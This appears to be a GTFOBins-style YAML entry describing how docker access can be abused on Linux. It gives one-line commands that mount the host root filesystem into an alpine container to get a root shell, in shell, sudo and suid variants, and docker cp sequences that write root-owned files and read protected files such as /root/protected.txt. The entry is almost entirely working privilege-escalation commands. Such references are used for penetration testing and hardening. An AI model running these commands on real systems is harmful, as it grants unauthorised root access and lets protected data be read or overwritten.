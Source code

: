 ```yaml
---
description: |
  This requires the user to be privileged enough to run docker, i.e. being in the `docker` group or being `root`.
functions:
  shell:
    - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
      code: docker run -v /:/mnt --rm -it alpine chroot /mnt sh
  file-write:
    - description: Write any file by copying it to an existing container and back to the target destination on the host. The file will be owned by root.
      code: |
        CONTAINER_ID=existing-docker-container
        echo "sensitive config" > /tmp/file.txt
        sudo docker cp /tmp/file.txt $CONTAINER_ID:/tmp/file.txt
        sudo docker cp $CONTAINER_ID:/tmp/file.txt /target/destination.txt
  file-read:
    - description: Read any file by copying it to an existing container and back to a new location on the host.
      code: |
        CONTAINER_ID=existing-docker-container
        sudo docker cp /root/protected.txt $CONTAINER_ID:/tmp/file.txt
        sudo docker cp $CONTAINER_ID:/tmp/file.txt /home/user/file.txt
        cat /home/user/file.txt
  sudo:
    - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
      code: sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
  suid:
    - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
      code: ./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
---
```

